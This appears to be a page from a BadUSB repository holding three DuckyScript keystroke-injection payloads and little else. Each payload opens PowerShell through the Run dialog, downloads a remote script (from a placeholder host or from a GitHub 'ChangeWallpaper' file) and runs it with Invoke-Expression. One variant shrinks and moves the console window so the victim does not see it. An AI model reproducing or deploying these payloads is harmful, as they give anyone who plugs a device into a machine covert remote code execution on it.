 Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255


Change wallpaper

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255

Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    REM Once powershell is up and running, hide the console
    ALT SPACE
    STRING m
    LEFTARROW
    REPEAT 50 
    STRING [console]::WindowHeight=1 
    ENTER
    STRING [console]::WindowWidth=1 
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255
